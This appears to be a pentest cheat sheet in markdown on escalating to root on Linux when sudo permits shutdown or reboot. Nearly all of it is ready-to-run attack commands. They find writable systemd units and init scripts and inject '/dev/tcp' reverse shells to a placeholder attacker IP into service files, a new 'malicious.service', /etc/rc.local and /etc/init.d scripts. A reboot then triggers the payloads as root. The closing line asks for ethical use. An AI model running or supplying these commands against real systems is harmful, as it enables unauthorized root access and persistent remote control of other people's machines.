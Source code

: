# Privilege Escalation via `shutdown` or `reboot`

If you have **sudo privileges to shutdown or reboot**, you may be able to escalate privileges by leveraging **services** that start at boot.

## 1. Exploit Writable System Services

System services (unit files in `/etc/systemd/system/`) run as **root** on startup. If you can modify a service that runs during boot, you can insert a reverse shell or a command to add a new root user.

### Step 1: Check for Writable Services
```bash
find /etc/systemd/system/ -type f -writable 2>/dev/null
```
If any services are writable, you can modify them to execute a root shell.

NOTE: do not forget checking service files manually they may have some intresting things

### Step 2: Inject a Reverse Shell
Edit a writable service (e.g., `myservice.service`) and modify the **ExecStart** line:
```bash
sudo nano /etc/systemd/system/myservice.service
```
Replace:
```ini
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1"
```
Then restart the system using your **sudo shutdown** privilege:
```bash
sudo /sbin/shutdown -r now
```
Once the system reboots, you’ll get a root shell.

## 2. Create a Malicious Systemd Service

If no existing services are writable, create a **new** systemd service that runs as root.

### Step 1: Create a New Service
```bash
echo '[Unit]
Description=Malicious Service
After=multi-user.target

[Service]
Type=simple
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1"

[Install]
WantedBy=multi-user.target' | sudo tee /etc/systemd/system/malicious.service
```

### Step 2: Enable and Start the Service
```bash
sudo systemctl enable malicious.service
```

### Step 3: Reboot the System
```bash
sudo /sbin/shutdown -r now
```
After the reboot, the system will execute your malicious service as **root**, giving you a **reverse shell**.

## 3. Modify `/etc/rc.local` (If Present)

Older Linux systems still use `/etc/rc.local`, which executes scripts on boot **as root**.

### Step 1: Check if `/etc/rc.local` Exists
```bash
ls -la /etc/rc.local
```
If it exists and is writable, add a **root shell** command:
```bash
echo "bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1" | sudo tee -a /etc/rc.local
sudo chmod +x /etc/rc.local
```

### Step 2: Reboot
```bash
sudo /sbin/shutdown -r now
```
When the system boots up, the command will run as **root**.

## 4. Modify `/etc/init.d/` Scripts

If the system uses **SysVinit**, you can modify an init script.

### Step 1: Find Writable Init Scripts
```bash
find /etc/init.d/ -type f -writable 2>/dev/null
```
If you find one, append:
```bash
echo "bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1" | sudo tee -a /etc/init.d/someservice
```
### Step 2: Restart the System
```bash
sudo /sbin/shutdown -r now
```
On reboot, your payload executes as **root**.

## Additional Note DO NOT FORGET THESE POINTS!

- **The service files may be calling binaries that can be read or written.**
- If you find a service executing a writable binary, replace it with a malicious payload.

## Conclusion

If you can **shutdown or reboot** with `sudo`, you can escalate privileges by:
✅ **Modifying writable system services**  
✅ **Creating a new malicious systemd service**  
✅ **Editing `/etc/rc.local` or init scripts**  

Use these techniques responsibly in ethical hacking and penetration testing scenarios.

